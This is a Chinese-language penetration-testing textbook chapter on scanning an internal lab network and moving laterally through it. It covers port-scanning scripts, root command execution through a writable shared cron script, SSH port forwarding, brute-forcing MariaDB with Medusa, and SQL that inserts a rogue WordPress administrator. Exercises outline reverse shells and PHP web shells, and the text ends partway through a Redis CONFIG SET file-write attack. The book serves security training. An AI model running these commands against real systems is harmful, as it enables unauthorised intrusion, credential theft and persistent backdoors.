





# 第十一章：11 网络探测与横向移动


在渗透测试中，你最初获得访问的网络或机器可能提供的价值有限。通过在目标环境中横向移动，你可以发现像相邻网络、数据库、应用服务器、文件共享服务器等珍贵资源。

作为渗透测试员，你会很快发现，现实中的企业环境更加注重其外部资产的安全性：这些资产暴露在喧嚣且开放的互联网中。这是因为外部边界被认为比内部网络更具风险，后者通常是由受信任的用户（如员工）使用的。

尽管公司可能只有少数面向互联网的资产，如营销网站或其他 Web 服务器，但其内部网络通常资产丰富。一旦进入一个组织的内部网络，你可能会发现打印机、网络交换机、员工计算机、文件服务器、智能设备等。

为了识别并访问这些资源，你可以重复我们已经讨论过的步骤：进行侦察、收集有价值的网络信息、识别和利用漏洞，并攻破连接到感兴趣网络的终端。因此，本章将加强之前章节的教训，扫描一个内部可访问的网络并识别额外的资产，尽管我们会强调一些新的技术。

示例将针对实验环境中的企业网络（10.1.0.0/24）。在继续之前，我们建议你再查看一下图 3.2（位于第 58 页），以便刷新你对实验室中可用网络的记忆——即公共网络和企业网络。

机器 *p-jumpbox-01*（172.16.10.13）和 *p-web-02*（172.16.10.12）是唯一同时连接到公共网络和企业网络的机器。每台机器有两个网络接口，使它们能够同时连接两个网络。因此，我们将在本章的一些攻击中使用这些机器来执行；其他攻击则通过 Kali 使用端口转发来执行。

## 探测企业网络

我们尚未收集有关 10.1.0.0/24 企业网络的信息。在这一部分中，我们将构建一个小型端口扫描器，它使用特殊的文件将发现的端口映射到命名的服务，并通过根据端口在外部环境中被打开的频率来优先扫描端口，从而加速端口扫描。内部网络往往托管的资产比渗透测试员从外部看到的要多，因此调整你的流程和工具有助于加速资产发现。

我们将通过使用操作系统上可用的工具，从 *p-jumpbox-01*（172.16.10.13）机器上执行网络扫描。请注意，你也可以修改并重用本书中迄今为止使用的一些端口扫描和信息收集脚本。

### 服务映射

在 Linux 上，*/etc/services* 文件将服务映射到由互联网号码分配局（IANA）分配的端口号。该文件包含几个由制表符分隔的列，例如服务名称、端口号和协议（例如，22/tcp），以及服务的描述。以下是来自 *p-jumpbox-01* 的 /*etc/services* 文件片段：

```
$ **grep -w -e 3306/tcp -e 3389/tcp -e 22/tcp -e 23/tcp -e 25/tcp /etc/services**

ssh                22/tcp          # SSH Remote Login Protocol
telnet             23/tcp
smtp               25/tcp          mail
mysql            3306/tcp
ms-wbt-server    3389/tcp 
```

使用 grep 时，我们使用 -w 来执行整词匹配，并使用 -e 查找多个 TCP 端口。我们可以使用此文件迭代常见端口，并识别它们可能运行的服务。清单 11-1 是一个 bash 脚本，利用 */etc/services* 以这种方式进行端口扫描。它使用安装在 *p-jumpbox-01* 上的 Ncat 进行端口扫描。

```
#!/bin/bash
TARGETS=("$@") ❶

print_help(){
  echo "Usage: ${0} <LIST OF IPS>"
  echo "${0} 10.1.0.1 10.1.0.2 10.1.0.3"
}

if [[${#TARGETS[@]} -eq 0]]; then ❷
  echo "Must provide one or more IP addresses!"
  print_help ❸
  exit 1
fi

for target in "${TARGETS[@]}"; do ❹
  while read -r port; do
    if timeout 1 nc -i 1 "${target}" -v "${port}" 2>&1 | grep -q "Connected to"; then ❺
      echo "IP: ${target}"
      echo "Port: ${port}"
      echo "Service: $(grep -w "${port}/tcp" /etc/services | awk '{print $1}')"
    fi
  done < <(grep "/tcp" /etc/services | awk '{print $2}' | tr -d '/tcp') ❻
done 
```

清单 11-1：使用 /etc/services 作为数据库文件进行端口扫描

在 ❶ 处，我们定义了 TARGETS=() 数组变量，使用 "$@" 将传递给脚本的任何命令行参数赋值给此数组。然后，我们使用 if 条件检查 TARGETS 数组是否为空 ❷。若为空，则使用 print_help() 函数打印帮助信息 ❸。

我们遍历 TARGETS 数组 ❹。我们还通过使用 while 循环 ❻ 遍历 */etc/services* 中的所有 TCP 端口，然后使用 nc 命令 ❺ 连接到目标和端口。如果端口被发现开放，我们会打印目标、端口和来自 */etc/services* 的服务名称映射。脚本在对 *c-backup-01*（10.1.0.13）和 *c-redis-01*（10.1.0.14）进行扫描时应输出以下内容：

```
$ **./port_scan_etc_services.sh 10.1.0.13 10.1.0.14**

IP: 10.1.0.13
Port: 8080
Service: http-alt
IP: 10.1.0.14
Port: 22
Service: ssh
IP: 10.1.0.14
Port: 6379
Service: redis 
```

如你所见，我们已识别出一些开放端口及其常见的服务名称。例如，我们看到键值数据库 Redis 经常使用端口 6379。

然而，服务可以在备用端口上运行，因此你需要对其进行指纹识别。要对端口 6379 进行指纹识别，请将 Redis INFO 命令通过管道传输到 nc 命令中（清单 11-2）。

```
$ **echo -e '\nINFO' | nc -v 10.1.0.14 6379**

`--snip--`
Ncat: (https://nmap.org/ncat)
Ncat: Connected to 10.1.0.14:6379.
$3249
# Server
redis_version:5.0.6
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:24cefa6406f92a1f
redis_mode:standalone
os:Linux 6.1.0-kali5-amd64 x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
`--snip--` 
```

清单 11-2：指纹识别端口上运行的服务

这是 Redis 服务器的典型响应；我们将在《**攻陷 Redis 服务器**》章节中回到此服务，见 第 271 页。继续扫描其余机器 *c-db-01*（10.1.0.15）和 *c-db-02*（10.1.0.16），以识别是否有其他可用端口。

### 端口频率

*/etc/services* 文件提供了一个简单的端口到服务名称的映射，但我们可以改进它。Nmap 有一个名为 *nmap-services* 的文件（通常位于 */usr/share/nmap/nmap-services*），它看起来几乎与 */etc/services* 相同，但有一个优势：它包含了 *端口开放频率*，这是一个描述端口被发现打开的频率的数值，例如 0.18010。举例来说，HTTP 或 HTTPS 等常见网络服务比打印服务更常见。

让我们看一下这个文件。清单 11-3 中的命令过滤了端口 22（SSH）、端口 23（Telnet）、端口 3306（MySQL）和端口 1433（Microsoft SQL）。在 Kali 上执行该命令，然后观察频率值：

```
$ **grep -w -e 22/tcp -e 23/tcp -e 3306/tcp -e 1433/tcp /usr/share/nmap/nmap-services**

ssh         22/tcp      0.182286    # Secure Shell Login
telnet      23/tcp      0.221265
ms-sql-s    1433/tcp    0.007929    # Microsoft-SQL-Server
mysql       3306/tcp    0.045390 
```

清单 11-3: 查看*/etc/services*文件中的特定端口

Telnet (0.221265) 的开放频率比 SSH (0.182286) 高，而 MySQL (0.045390) 的开放频率比 Microsoft SQL (0.007929) 高。这些频率数据帮助我们优先考虑要扫描的端口，去除不常见开放的端口，并集中于一小部分端口，从而降低错过关键服务的风险。在练习 23 中，我们将构建一个基于开放频率扫描端口的扫描器。

请注意，虽然服务名称与找到的端口关联，但这些端口未必反映实际运行的服务。例如*/etc/services*和*nmap-services*文件使用静态映射端口和服务，因此我们需要通过连接每个端口来正确识别渗透测试中的服务。

我们鼓励您利用书中学到的知识对这些主机进行额外的信息收集。您能否识别正在运行的应用程序或数据库及其版本？正在运行的操作系统又如何？在随后的部分中，我们将利用其中一些服务来访问其他机器并在网络中横向移动。

练习 23: 基于频率扫描端口

在这个练习中，您将执行类似于清单 11-1 中的端口扫描，但您将检查找到开放端口的频率，并优先考虑常见开放的端口。以下是您将要执行的高层次操作：

1.  在 Kali 上，从*/usr/share/nmap/nmap-services*文件中提取服务、端口及其开放频率值。将它们写入新文件或集成到脚本中。

2.  使用 sort 和 awk 等命令将端口按从最高频率到最低频率排序。

3.  创建一个端口扫描脚本，通过频率排序的端口进行迭代，并以某种格式返回结果。

你可以用多种方式来进行这项工作，我们鼓励你根据自己的逻辑编写脚本。如果遇到困难，请尝试修改清单 11-1 中的脚本。清单 11-4 展示了如何按*nmap-services*文件中端口的频率排序。

```
$ **grep "/tcp" /usr/share/nmap/nmap-services | sort -r -k 3 | awk '{print $1, $2, $3}'**

http 80/tcp 0.484143
telnet 23/tcp 0.221265
https 443/tcp 0.208669
ftp 21/tcp 0.197667
ssh 22/tcp 0.182286
smtp 25/tcp 0.131314
ms-wbt-server 3389/tcp 0.083904
pop3 110/tcp 0.077142
microsoft-ds 445/tcp 0.056944
netbios-ssn 139/tcp 0.050809
`--snip--` 
```

清单 11-4: 按频率排序*nmap-services*文件

我们使用 grep "/tcp"仅过滤基于 TCP 的端口。然后将结果传递给 sort 命令，并传递-r（逆序）-k（键），后跟 3，表示频率列（第三列）。我们使用 awk 仅打印第一、第二和第三个字段，以获得更清晰的输出。这为我们提供了一个有序的端口列表，让您了解哪些端口更常见。

现在你已经有了一个列表，下一步是将此列表硬编码到你的脚本中并对其进行迭代，或者将内容写入文件并让 bash 脚本对文件中的每一行进行迭代。你选择的方向最终取决于你自己。然而，硬编码一个庞大的列表会使脚本难以阅读，除非你只列出少数几个端口，所以我们建议将其写入专用文件。

要测试你的脚本，将它复制到 *p-jumpbox-01*（172.16.10.13），并对目标列表运行它，以识别 10.1.0.0/24 企业网络上运行的任何服务。你应该看到类似以下的输出：

```
$ **./port_scan_with_frequency.sh 10.1.0.13 10.1.0.14 10.1.0.15 10.1.0.16**

IP: 10.1.0.13
Port: 8080
Service: http-alt
IP: 10.1.0.14
Port: 6379
Service: redis
IP: 10.1.0.15
Port: 80
Service: http
IP: 10.1.0.16
Port: 3306
Service: mysql 
```

请记住，扫描可能需要几分钟才能完成。

## 利用共享卷上的 Cron 脚本

现在我们已经收集了有关企业网络的信息，我们将利用各种易受攻击的服务来获得对它的访问权限。Cron 作业有时会执行存储在多个机器共享的卷上的脚本。如果系统管理员配置错误了权限，未经授权的用户可能能够修改这些脚本，从而潜在地影响依赖这些脚本的系统。

注意在 *p-web-01*（172.16.10.10）上挂载了一个卷在 */mnt/scripts* 下。你可以通过在服务器上运行 mount 或 df -hTP 命令来查看它：

```
$ **df -hTP | grep "/mnt/scripts"**
/dev/sda1      ext4      79G   26G   50G  34% /mnt/scripts

$ **mount | grep "/mnt/scripts"**
/dev/sda1 on /mnt/scripts type ext4 (rw,relatime,errors=remount-ro) 
```

在这个目录下有一个名为 *execute.sh* 的脚本，由 *root* 用户拥有并可以写入。列表 11-5 显示了它的内容。

```
#!/bin/bash

# This script is executed every minute on c-backup-01 to do maintenance work.

❶ LOG="/tmp/job.log"

echo "$(date) - Starting cleanup script..." >> "$LOG"
❷ if find /tmp -type f ! -name 'job.log' -exec rm -rf {} +; then
❸ echo "cleaned up files from the /tmp folder."  >> "$LOG"
fi

echo "$(date) - Cleanup script is finished." >> "$LOG" 
```

列表 11-5: /mnt/scripts/execute.sh 文件

脚本中的注释表明它每分钟在 *c-backup-01*（10.1.0.13）机器上执行。我们可以推断，网络共享和这个脚本都在 *c-backup-01* 上可用。

让我们分析一下这个脚本的功能。在 ❶ 处，变量 LOG 被设置为文件路径 */tmp/job.log*。在 ❷ 处，if 条件检查 find 命令的退出状态。find 命令搜索 */tmp* 目录下所有不叫 *job.log* 的文件；在这种情况下，感叹号（!）是一个“非”操作符。如果 find 命令找到任何此类文件，则执行 -exec rm -rf {} + 命令，删除这些文件。在 ❸ 处，echo 命令将被删除的文件写入在 ❶ 处设置的日志文件中。

这个完整的脚本本质上是一个目录清理工具，每分钟通过在 *c-backup-01* 上运行的 cron 作业清空 */tmp* 目录。由于这个 bash 脚本存在于一个挂载在两台机器上的卷中，其中一台我们有 root 权限，我们可以尝试修改它，让 *c-backup-01* 执行我们的自定义指令。然而有一个挑战：虽然该卷与 *p-web-01* 和 *c-backup-01* 共享，但这两台机器不在同一网络中。图 11-1 说明了这些机器是如何连接的。



图 11-1: p-web-01 和 c-backup-01 之间的间接网络访问

虽然*p-web-01*没有直接访问公司网络的权限，但*p-web-02*有。这意味着我们将修改*p-web-01*中的*execute.sh*脚本，但尝试通过*p-web-02*与*c-backup-01*进行交互。

### 验证可利用性

为了验证*c-backup-01*是否确实在执行*execute.sh*脚本，我们需要让它发出一个信号。这个信号可以是发送到我们打开的监听器的网络数据包；或者，我们可以强制*c-backup-01*在共享驱动器中创建一个文件。让我们试试这个。在*p-web-01*（172.16.10.10）上，将以下行添加到*/mnt/script/execute.sh*的末尾：

```
touch "/mnt/scripts/$(hostname).txt"
```

由于脚本声称每分钟运行一次，我们需要监视文件创建事件，以便在文件被删除之前看到它。我们可以使用 watch 命令来做到这一点。列表 11-6 将运行 ls -l 命令，并每两秒刷新一次输出。

```
$ **watch -d 'ls -l'**

Every 2.0s: ls -l     p-web-01.acme-infinity-servers.com: Sat

total 8
-rw-r--r-- 1 root root 0 Nov 4 18:13 c-backup-01.acme-infinity-servers.com.txt
-rwxr--r-- 1 root root 529 Nov 4 18:08 execute.sh 
```

列表 11-6：使用 watch 命令监控文件变化

如你所见，*c-backup-01.acme-infinity-servers.com.txt*文件出现，表明*c-backup-01*确实在执行这个脚本。

### 检查用户上下文

Cron 作业可以由专用用户运行，但在某些情况下，它们可能会以*root*用户身份运行。这可能出于方便，或者是安全疏忽。为了验证脚本运行的用户上下文，我们可以在文件中添加命令，以捕获主机名、运行 cron 作业的用户身份以及系统上运行的所有进程列表：

```
echo "Hostname: $(hostname)" > /mnt/scripts/$(hostname).txt
echo "Identity: $(id)" >> /mnt/scripts/$(hostname).txt
echo "Processes: $(ps aux)" >> /mnt/scripts/$(hostname).txt 
```

重复列表 11-4 中的 watch 命令，查看写入文件的新内容。一旦写入内容，运行 cat 命令查看结果：

```
$ **cat /mnt/scripts/c-backup-01***

Hostname: c-backup-01.acme-infinity-servers.com
Identity: uid=0(root) gid=0(root) groups=0(root)
Processes:
USER     PID   %CPU %MEM  VSZ   RSS TTY  STAT START TIME COMMAND
`--snip--`
root     1812  0.0  0.0   2732   924 ?   Ss 18:23  0:00 /bin/sh -c bash /mnt/scripts/execute.sh
root     1813  0.0  0.0   4244  3196 ?   S  18:23  0:00 bash /mnt/scripts/execute.sh
root     1823  0.0  0.0   8204  4000 ?   R  18:23  0:00 ps aux 
```

脚本以 root 身份运行。这意味着我们在 root 上下文下拥有完全的命令执行能力。从这里开始，我们几乎可以做任何事情，例如查看由*root*用户拥有的文件，如*/etc/shadow*；在关键系统目录中写入自定义文件；将文件复制到远程服务器；以及添加用户。

练习 24：在备份服务器上获取反向 Shell

虽然上一节中发现的 cron 作业脚本漏洞赋予了我们在*c-backup-01*（10.1.0.13）上无限执行命令的能力，但我们还没有在服务器上获得 shell。让我们获取一个。

公司网络上的机器没有互联网访问权限。你需要找到其他方式来传输你可能需要的任何额外工具，以完成对公司网络的完全入侵。如何建立反向 shell 最终取决于你，但这里有一些高级指导，你可以遵循：

1. 在你有权限并能够访问公司网络的机器上打开一个 shell 监听器，例如*p-web-02*（172.16.10.12）。

2. 如果没有可用的工具来建立反向 shell 监听器，可以从另一个远程位置获取这些工具，例如通过在你的主 Kali 机器上运行一个包含必要工具的 Web 服务器。

3.  修改前一节描述的易受攻击的*execute.sh*脚本，将 Shell 发送到侦听器的网络。

4.  验证您是否以*root*用户身份具有 Shell 访问权限。

## 利用数据库服务器

本章早些时候，我们在*c-db-02*（10.1.0.16）上识别出一个可能的 MySQL 服务。我们可以通过探测端口来验证这是否确实是一个数据库。从*p-jumpbox-01*（172.16.10.13）运行以下命令来了解这项服务：

```
$ **nc -v 10.1.0.16 3306**

Ncat: Connected to 10.1.0.16:3306.
5.5.5-10.6.4-MariaDB-1:10.6.4 
```

*c-backup-01*上的数据库是 MariaDB 服务器。它使用 TCP 端口 3306，类似于 MySQL。访问数据库管理控制台需要用户名，有时还需要管理员设置的密码。在本节中，我们将尝试暴力破解数据库，以获得对其的远程访问权限。

### 端口转发

尽管*p-jumpbox-01*和*p-web-02*都连接到企业网络，但两者都没有我们可以用来连接的安装的数据库客户端。为了解决这个问题，我们可以使用端口转发和 Kali 上可用的工具来暴力破解数据库。我们将通过使用中间跳转主机*p-jumpbox-01*（172.16.10.13）在 Kali 机器上建立本地端口转发。

我们可以使用列表 11-7 中的命令执行端口转发。

```
$ **ssh -v -N -L 3306:10.1.0.16:3306 backup@172.16.10.13**
```

列表 11-7：使用 SSH 进行端口转发

此命令使用本地端口转发（-L）和语法 local_port:remote_ip:remote_port，接着是将通过的中间主机进行的转发。执行此命令后，将提示您输入*p-jumpbox-01*上备份用户的密码。作为提醒，密码是*backup*。

一旦命令成功执行，Kali 将开始在本地监听 3306 端口。使用以下命令验证 3306 端口是否在监听：

```
$ **netstat -atunp | grep 3306**

`--snip--`
tcp   0   0 127.0.0.1:3306   0.0.0.0:*   LISTEN 86790/ssh
`--snip—` 
```

Kali 上发送到 127.0.0.1:3306 的任何流量将通过中间主机*p-jumpbox-01*转发到*c-db-02*（10.1.0.16）的 3306 端口。

### 使用 Medusa 进行暴力破解

现在我们可以从 Kali 运行攻击，可以使用预安装的工具如 Medusa 来暴力破解数据库。以下命令使用 Medusa 的*mysql*模块，在 MariaDB 服务器上执行任务：

```
$ **medusa -h 127.0.0.1 -u root -P /usr/share/metasploit-framework/data/**
**wordlists/unix_users.txt -M mysql** 
```

我们使用 medusa 命令和参数-h（主机）、-u（用户）、-P（密码文件）和-M（模块），指定 127.0.0.1 主机、root 用户、密码文件*/usr/share/metasploit-framework/data/wordlists/unix_users.txt*和*mysql*。Medusa 将使用*unix_users.txt*文件中的密码列表来暴力破解 root 帐户。让 Medusa 运行几分钟，直到找到密码：

```
`--snip--`
ACCOUNT CHECK: [mysql] Host: 127.0.0.1 User: root Password: redsocks
ACCOUNT CHECK: [mysql] Host: 127.0.0.1 User: root Password: rfindd
ACCOUNT CHECK: [mysql] Host: 127.0.0.1 User: root Password: rje
ACCOUNT CHECK: [mysql] Host: 127.0.0.1 User: root Password: root
**ACCOUNT FOUND: [mysql] Host: 127.0.0.1 User: root Password: root [SUCCESS]** 
```

很好，Medusa 找到了*root*用户的密码是*root*。让我们尝试连接数据库。从 Kali 运行以下命令：

```
$ **mysql -h 127.0.0.1 -u root -p**

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 32
`--snip--`

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

接下来，通过使用 show databases 命令枚举可用数据库：

```
$ MariaDB [(none)]> **show databases;**

+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| **wordpress**          |
+--------------------+ 
```

正如你所看到的，我们找到了一个 WordPress 数据库。让我们连接一些点：这个*c-db-02*服务器可能是运行在*p-web-02*上的 WordPress 实例的后台数据库。回想一下，在之前章节中我们进行公共网络渗透测试时，这个数据库是无法访问的。现在我们尝试使用它进行进一步的利用。

### 反向植入 WordPress

现在我们以*root*用户身份访问 WordPress 数据库，可以修改数据库并添加我们自己的 WordPress 用户。这将使我们能够登录到 WordPress 管理页面，并完全控制博客平台。管理页面位于*http://172.16.10.12/wp-admin*，如图 11-2 所示。



图 11-2：WordPress 管理员门户

要添加用户，我们需要向两个表（即 wp_users 和 wp_usermeta）插入三行数据库记录。在 MariaDB 控制台中，运行以下命令切换到 wordpress 数据库：

```
MariaDB [(none)]> **use wordpress;**

`--snip--`
Database changed 
```

接下来，运行三条 INSERT INTO SQL 命令来添加新记录并创建用户。第一条命令插入一个名为*jane*的新用户，密码为*bash*，并附带一些元数据：

```
MariaDB [(none)]> **INSERT INTO `wordpress`.`wp_users` (**
**`ID`, `user_login`, `user_pass`, `user_nicename`, `user_email`, `user_url`, `user_registered`,**
**`user_activation_key`, `user_status`, `display_name`) VALUES ('3', 'jane', MD5('bash'),**
**'Jane', 'jane@example.com', 'http://www.example.com/', '2023-01-01 00:00:00', '', '0', 'Jane');** 
```

第二条和第三条命令将用户的权限设置为管理员权限：

```
MariaDB [(none)]> **INSERT INTO `wordpress`.`wp_usermeta` (`umeta_id`, `user_id`, `meta_key`,**
**`meta_value`) VALUES (NULL, '3', 'wp_capabilities', 'a:1:{s:13:"administrator";s:1:"1";}');**

**MariaDB [(none)]> INSERT INTO `wordpress`.`wp_usermeta` (`umeta_id`, `user_id`, `meta_key`,**
**`meta_value`) VALUES (NULL, '3', 'wp_user_level', '10');** 
```

由于这些命令比较冗长，你也可以从本书 GitHub 仓库中的第十一章文件夹内的*add_wordpress_admin.sql*文件中复制它们。

执行这三条 INSERT INTO SQL 命令后，你现在应该能够访问*http://172.16.10.12/wp-admin*并以用户*jane*身份登录，密码为*bash*。你应该能看到 WordPress 管理面板，如图 11-3 所示。



图 11-3：身份验证后的 WordPress 面板

WordPress 管理员页面允许从其界面内修改 WordPress 内容文件，例如 HTML 和 PHP 文件。它们还允许你安装插件和主题，管理用户，更改与平台相关的设置等。

### 使用 Bash 运行 SQL 命令

值得注意的是，你可以通过在 bash 脚本中使用 heredoc（在第一章中介绍）来运行 SQL 命令。列表 11-8 提供了一个示例。

```
#!/bin/bash
DB_HOST="127.0.0.1"
DB_USER="root"
DB_NAME="wordpress"

# SQL commands as input to the mysql command
mysql -h "${DB_HOST}" -u "${DB_USER}" -p "${DB_NAME}" << "EOF"
INSERT INTO `wordpress`.`wp_users` ...
INSERT INTO `wordpress`.`wp_usermeta` ...
EOF 
```

列表 11-8：在 bash 脚本中运行 SQL 命令

我们设置了几个包含数据库连接信息的变量，例如主机、用户和数据库名。然后我们使用 mysql 命令（适用于 MariaDB 服务器）并将这些变量传递给命令。通过使用 heredoc（<<），我们将一系列 SQL 命令定义为 mysql 命令的输入。两个 EOF 分隔符字符串标志着 heredoc 中命令的开始和结束。一旦你输入此命令，系统会提示你输入通过“使用 Medusa 进行暴力破解”章节中第 267 页发现的密码。

练习 25：通过 WordPress 执行 Shell 命令

在前一节中，您已经访问了 WordPress 管理页面。您能找到在托管博客平台的主机上执行 Shell 命令的方法吗？您可以通过多种方式实现这一目标。以下是一些示例：

+   通过 WordPress 编辑器修改主题的 PHP 文件，向其源代码添加基于 PHP 的 Web shell。

+   上传一个自定义插件，将危及底层系统。

+   从 WordPress.com Marketplace 安装一个插件，该插件提供执行 Shell 命令的功能。

一旦您能够执行 Shell 命令，请使用您已学习的方法之一建立一个反向 Shell。

## 妥协 Redis 服务器

在本章前面，我们确认了运行在 *c-redis-01* 机器 (10.1.0.14) 上的 Redis 服务器。Redis 是一种快速的键值数据库，通常在软件架构中用于缓存等目的。它经常部署时没有密码或 ACL 等安全保护，限制客户端在数据库上执行的命令。

我们已经知道我们发现的 Redis 服务器没有密码保护。当 Redis 服务器受密码保护时，未经身份验证的客户端将无法在不提供正确密码的情况下执行命令，我们用于指纹识别目的的 INFO 命令也无法工作。

某些版本的 Redis 对一种技巧是有漏洞的，它可以通过滥用其 CONFIG SET 命令向系统写入任意文件。名为 *Kinsing* 的恶意软件就利用了这种技术来妥协面向互联网的 Redis 服务器。攻击步骤如下：

1.  连接到一个未受保护的 Redis 服务器。

2.  发出 CONFIG SET dir 命令设置 Redis 配置文件的目录路径。

